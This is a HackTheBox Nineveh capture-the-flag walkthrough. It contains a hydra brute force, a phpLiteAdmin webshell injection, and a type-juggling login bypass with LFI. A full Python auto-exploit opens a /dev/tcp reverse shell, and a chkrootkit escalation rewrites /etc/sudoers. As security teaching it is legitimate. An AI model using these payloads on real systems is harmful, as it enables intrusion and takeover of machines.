

This box was an medium box from HackTheBox. It's OS is Linux and the entry point is with Web App. We found the phpliteadmin running on port 443, then we can get RCE on this box using a vulnerability of this app, we upload a php file there then execute it in a path traversal on the port 80. After that we get a ssh key in a png file, make a port knock in it to open the ssh port. SSH in and then found a chorootkit running as root.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.13
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


A simple message.

We try a wfuzz in it to find directories

```sh
wfuzz -t 200 -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.43/FUZZ
```


When we open the /department we found a login


We'll explore it later

## Port 443

Try to open the browser on port 443


We try to see the certificate


We got one subdomain and an email

We add the subdomain in /etc/hosts


And access on the browser it


We perfrom a wffuz in it to get some pages

```sh
wfuzz -t 200 -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://10.10.10.43/FUZZ
```


From here we can get a reverse shell from two diferent paths. I'll show all of them.

# 1º Path - phpLiteAdmin

The first one will be trough phpliteadmin. Where we can execute commands on the server.

We access the /db we found before on wfuzz


In this case we'll need to perform a brute force. For that I'll use `hydra`

For that we need to see how the query works, in burp it's easy to see

We send one with an incorrect passsword


Now we can mount our hydra query

```
-l --> login, not needed in this case. But hydra must need one.
-P --> wordlist used.
https-post-form --> it's https and post
"/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" --> It's the data we will send and the error message in the end
```

```sh
hydra nineveh.htb -l 0x4rt3mis -P /usr/share/wordlists/fasttrack.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```


And we have a password! Now we can just login on the webapp


Now we start searching for exploits for this version of phpLiteAdmin

And we found this one, [ExploitDB](https://www.exploit-db.com/exploits/24044)

```
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' => 
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!

Proof: http://goo.gl/ZqPVL
```

1. We Create a new database ending with .php:


2. Create a table with 1 text field with a default value of a basic PHP webshell:


Note: create the cmd shell with " not ' (because of the sql syntax)

```php
<?php system($_REQUEST["cmd"]); ?>
```


3. Get RCE

We need a LFI to get rce. I can see where the file is located, so it's possible to get RCE on this box.


## LFI - Type Juggling

Now, to get the LFI to trigger this file. Returning to the /departmet we found on port 80, we can try to byppass this login form


We should try a bruteforce here. With a bunch of wordlist, and even a sqlinjection in it. But the path we got here is trough `Type Juggling` on the password. When we pass the password as an array, it gets bypassed.


Ok, we got it bypassed. Now let's get the LFI in this page

But before procced, why it worked?

PHP is very trickly when it compares types of data. If it makes a loose comparison for the password on the database, it will be validated with an array of data

For example, if the code of the server is something like it:

```php
if(strcmp($_REQUEST['password'], $password) == 0)
```

If we pass an array as the string to be compared

```php
echo strcmp(array(), "admin");
```

It fails


However, it is actually returning a NULL, and if that NULL is then compared to 0, it evaluates true:

```php
if (strcmp(array(), "admin") == 0) { echo "0x4rt3mis"; }
```


And because of that we byppass this auth this way.

After a bunch of trial and error on the notes we found the LFI, and we got RCE 


Now we got a reverse shell


Now let's easily automate it

# Auto Reverse Shell - phpLiteAdmin

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_nineveh.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Nineveh - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
import urllib
import urllib3
import urllib.parse
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's creat the payload !! [+]")
    global payload
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload = str(b64e(payload))
    
# Let's create the phpLiteAdmin php file
def CreatePHP(rhost):
    print("[+] Let's create the malicious PHP File !! [+]")
    # Loging as admin
    url = "https://%s:443/db/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"password": "password123", "remember": "yes", "login": "Log In", "proc_login": "true"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    # Create the new database
    data = {"new_dbname": "0x4rt3mis.php"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    # Change the database
    url = "https://" + rhost + ":443/db/index.php?switchdb=%2Fvar%2Ftmp%2F0x4rt3mis.php"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Create table
    url = "https://" + rhost + ":443/db/index.php?action=table_create"
    data = {"tablename": "shell", "tablefields": "1", "createtable": "Go"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    # Inject Malicious PHP
    url = "https://%s:443/db/index.php?action=table_create&confirm=1" %rhost
    data = {"tablename": "shell", "rows": "1", "0_field": "shell", "0_type": "TEXT", "0_defaultvalue": "<?php system($_REQUEST[\"cmd\"]); ?>"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    print("[+] File Created, let's call it to get the reverse shell !! [+]")

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/department/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "123"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    print("[+] Logged In !! [+]")

def getReverse(rhost,lhost,payload):
    print("[+] Let's get the reverse shell !! [+]")
    payload = urllib.parse.quote(payload, safe='')
    url = "http://%s:80/department/manage.php?notes=/ninevehNotes/../var/tmp/0x4rt3mis.php&cmd=echo+%s+|+base64+-d+|+bash" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nineveh AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the payload
    createPayload(lhost,lport)
    # Create php file
    CreatePHP(rhost)
    # Login as admin
    LoginAdmin(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost,payload)

if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# www-data –> amrois

When you get on the box. You see an image. Always when you get an image in a CTF, is good to look better in it


We get it in our Kali


We extract it and found two keys, ssh keys


Okay, but we don't have SSH port opened in this box

It's filtered!


## Port Knocking

We suspect that this server has what we call `Port Knocking`, which means that we must "Knock" in some specific ports to open the port 22

[Knocking](https://wiki.archlinux.org/index.php/Port_knocking))

We could look at the proccess running to find the knock file

```sh
cat /proc/sched_debug | grep knock
```


Now we look at the `/etc/knockd.conf` to see what is the ports we must knock to open the ssh port


And here we get the three ports we must knock to open the ssh one

We can do that in two ways, through `nmap` and with the `knock` binary

```sh
for x in 22 571 290 911 22; do nmap -Pn --max-retries 0 -p $x nineveh.htb; done 
```


```sh
nmap -p22 nineveh.htb
knock nineveh.htb 571 290 911
nmap -p22 nineveh.htb
```


Okay, now the ssh port is opened

Now we ssh with the key

```sh
ssh -i /tmp/nineveh.priv amrois@nineveh.htb
```


# amrois -> root

Let's become root now

We run [linpeas](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0) and found the `chkrootkit` running in this server


[Chrootkit](http://www.chkrootkit.org/) is a tool which looks for rootkit on the server.

We search for some exploits for this binary and found on exploitdb

We found [this](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/) to explain what we'll do here now.

1. First step to exploit this vulnerability, we need to create a file named 'update' in /tmp directory, with a bash command, and, make the file executable

```sh
echo 'mkdir /tmp/0x4rt3mis' > /tmp/update
chmod 777 /tmp/update
```


2. Now execute the chkrootkit command using root. In this particular case, I found a cron job running it as root, I had to wait for it to execute automatically, after a while I found the new directory named '0x4rt3mis', the owner is root

```sh
ls -l /tmp
```


Wait for the cron...


3. Knowing the previous command executed, we can modify files, we can add privileges to our current user www-data by modifying /etc/sudoers

```sh
echo 'chmod 777 /etc/sudoers && echo "amrois ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
cat update
ls -l
```


4. Again I’d wait for the cron job to execute as root, then log in as root using 'sudo su'

```sh
sudo su
whoami
```


Got it.